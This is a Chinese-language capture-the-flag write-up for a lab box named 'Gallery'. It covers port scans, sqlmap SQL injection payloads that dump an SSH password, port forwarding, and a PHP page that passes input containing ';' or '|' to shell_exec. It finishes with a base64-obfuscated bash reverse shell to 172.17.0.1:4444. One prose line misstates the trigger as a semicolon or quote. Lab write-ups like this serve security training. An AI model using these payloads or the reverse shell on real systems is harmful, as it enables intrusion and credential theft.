




## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali/Gallery  
❯ nmap 172.17.0.3 -sV -A -p- 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 19:95:1a:f2:f6:7a:a1:f1:ba:16:4b:58:a0:59:f2:02 (ECDSA)
|_  256 e7:e9:8f:b8:db:94:c2:68:11:4c:25:81:f1:ac:cd:ac (ED25519)
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.3.6)
|_http-title: Galer\xC3\xADa de Arte Digital
```

## Feroxbuster

```
[root@kali] /home/kali/Gallery  
❯ feroxbuster -u 'http://172.17.0.3/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt   
                                                                                                                                                
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.3/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       29l       83w     1478c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        7l       57w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      266l      543w     5288c http://172.17.0.3/style.css
200      GET       28l       63w     1104c http://172.17.0.3/login.php
200      GET        0l        0w        0c http://172.17.0.3/config.php
302      GET        0l        0w        0c http://172.17.0.3/dashboard.php => login.php
```

## SQL Injection

在用户名这里存在注入点



进入到后台，又有一个可以搜索的注入点





这里使用**sqlmap**进行注入

```
[root@kali] /home/kali/Gallery  
❯ sqlmap --cookie "PHPSESSID=r3kjodvf4kl5q91uisobojp527" -u "http://172.17.0.3/dashboard.php?search_term=11" -D secret_db --dump             
        ___
       __H__                                                                                                                                    
 ___ ___[.]_____ ___ ___  {1.9.2#stable}                                                                                                        
|_ -| . [,]     | .'| . |                                                                                                                       
|___|_  ["]_|_|_|__,|  _|                                                                                                                       
      |_|V...       |_|   https://sqlmap.org                                                                                                    

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:49:59 /2025-04-25/

[22:49:59] [INFO] resuming back-end DBMS 'mysql' 
[22:49:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search_term (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: search_term=11' AND EXTRACTVALUE(2694,CONCAT(0x5c,0x716b7a7171,(SELECT (ELT(2694=2694,1))),0x71626a6271)) AND 'kDVa'='kDVa

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search_term=11' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b7a7171,0x4e4442547641624446444143786472586d5563504c714842634f75726647705072656368454a4575,0x71626a6271),NULL-- -
---
[22:49:59] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.3.6
back-end DBMS: MySQL >= 5.1
[22:49:59] [INFO] fetching tables for database: 'secret_db'
[22:49:59] [INFO] fetching columns for table 'secret' in database 'secret_db'
[22:49:59] [INFO] fetching entries for table 'secret' in database 'secret_db'
Database: secret_db
Table: secret
[1 entry]
+----+------------------------+-----------+
| id | ssh_pass               | ssh_users |
+----+------------------------+-----------+
| 1  | $uper$ecretP4$$w0rd123 | sam       |
+----+------------------------+-----------+

[22:50:00] [INFO] table 'secret_db.secret' dumped to CSV file '/root/.local/share/sqlmap/output/172.17.0.3/dump/secret_db/secret.csv'
[22:50:00] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.17.0.3'

[*] ending @ 22:50:00 /2025-04-25/
```

得到**sam**的登录密码

## Root

上传**fscan**查看端口情况：[shadow1ng/fscan: 一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。](https://github.com/shadow1ng/fscan)

```
sam@7adf2cce45b2:/tmp$ ./fscan -h 127.0.0.1
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0
                                                                                                                                                
[2025-04-26 04:53:51] [INFO] 暴力破解线程数: 1                                                                                                  
[2025-04-26 04:53:51] [INFO] 开始信息扫描
[2025-04-26 04:53:51] [INFO] 最终有效主机数量: 1
[2025-04-26 04:53:52] [INFO] 开始主机扫描
[2025-04-26 04:53:52] [INFO] 有效端口数量: 233
[2025-04-26 04:53:52] [SUCCESS] 端口开放 127.0.0.1:3306
[2025-04-26 04:53:52] [SUCCESS] 端口开放 127.0.0.1:22
[2025-04-26 04:53:52] [SUCCESS] 端口开放 127.0.0.1:8888
[2025-04-26 04:53:52] [SUCCESS] 端口开放 127.0.0.1:80
[2025-04-26 04:53:52] [SUCCESS] 服务识别 127.0.0.1:3306 => [mysql] 版本:8.0.41-0ubuntu0.24.04.1 产品:MySQL Banner:[[.8.0.41-0ubuntu0.24.04.1.^.K`y.3v<L.= d.@79xl1 caching_sha2_password]                                                                                                       
[2025-04-26 04:53:52] [SUCCESS] 服务识别 127.0.0.1:22 => [ssh] 版本:9.6p1 Ubuntu 3ubuntu13.9 产品:OpenSSH 系统:Linux 信息:Ubuntu Linux; protocol 2.0 Banner:[SSH-2.0-OpenSSH_9.6p1 Ubuntu-3ubuntu13.9.]                                                                                         
[2025-04-26 04:53:57] [SUCCESS] 服务识别 127.0.0.1:8888 => [http]
[2025-04-26 04:53:57] [SUCCESS] 服务识别 127.0.0.1:80 => [http]
[2025-04-26 04:53:57] [INFO] 存活端口数量: 4
[2025-04-26 04:53:57] [INFO] 开始漏洞扫描
```

将**8888**端口转发出来

```
[root@kali] /home/kali/Gallery  
❯ ssh sam@172.17.0.3 -L 8888:127.0.0.1:8888 
```

查看网页源码

```
sam@7adf2cce45b2:/var/www/terminal$ cat index.php 
<?php
session_start();

if ($_SERVER['SERVER_ADDR'] !== '127.0.0.1' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
    die('Access Denied');
}

$header = "
   ______      _ _                
  / ____/___ _/ / /__  _______  __
 / / __/ __ `/ / / _ \/ ___/ / / /
/ /_/ / /_/ / / /  __/ /  / /_/ / 
\____/\__,_/_/_/\___/_/   \__, /  
                         /____/   
Gallery Management System v1.0
--------------------------------
[?] Try thinking outside the box
";

$output = isset($_POST['command']) ? '' : $header;
$commands = ['help', 'list_art', 'show_artists', 'check_status', 'view_logs', 'system_info'];

if (isset($_POST['command'])) {
    $cmd = $_POST['command'];
    if ($cmd === 'help') {
        $output = "Available commands:\n";
        $output .= "----------------\n";
        foreach ($commands as $command) {
            $output .= "- $command\n";
        }
        $output .= "\nGallery Management System - Admin Interface";
    } else if ($cmd === 'list_art') {
        $output = "Current Artworks:\n";
        $output .= "- La noche estrellada (ID: 1)\n";
        $output .= "- Mona Lisa (ID: 2)\n";
        $output .= "Status: Display Only Mode";
    } else if ($cmd === 'show_artists') {
        $output = "Registered Artists:\n";
        $output .= "- Vincent van Gogh\n";
        $output .= "- Leonardo da Vinci\n";
        $output .= "Access Level: Read Only";
    } else if ($cmd === 'check_status') {
        $output = "Gallery System Status:\n";
        $output .= "- Database: Connected\n";
        $output .= "- Backup: Enabled\n";
        $output .= "- Security: Enhanced\n";
        $output .= "- Last Check: " . date("Y-m-d");
    } else if ($cmd === 'view_logs') {
        $output = "Recent Activity:\n";
        $output .= "- [INFO] System startup\n";
        $output .= "- [WARN] Failed login attempt\n";
        $output .= "- [INFO] New artwork added\n";
        $output .= "Access: Restricted";
    } else if ($cmd === 'system_info') {
        $output = "Gallery Management System\n";
        $output .= "Version: 1.0\n";
        $output .= "Environment: Production\n";
        $output .= "Access Level: Guest";
    } else if (strpos($cmd, ';') !== false || strpos($cmd, '|') !== false) {
        // Aquí es donde realmente ejecutamos comandos
        $output = shell_exec($cmd);
    } else {
        $output = "Command not found. Type 'help' for available commands.";
    }
    $output = $header . "\n" . $output;
}
?>
```

发现只需要存在分号或者引号，就可以执行命令

```
➤  docker0 → 172.17.0.1:4444

printf KGJhc2ggPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS80NDQ0IDA+JjEpICY=|base64 -d|bash
```



## Summary

`User`：**sql注入**拿到用户登录密码

`Root`：分析源码，进行命令执行

我觉得这个机器应该算**easy**难度
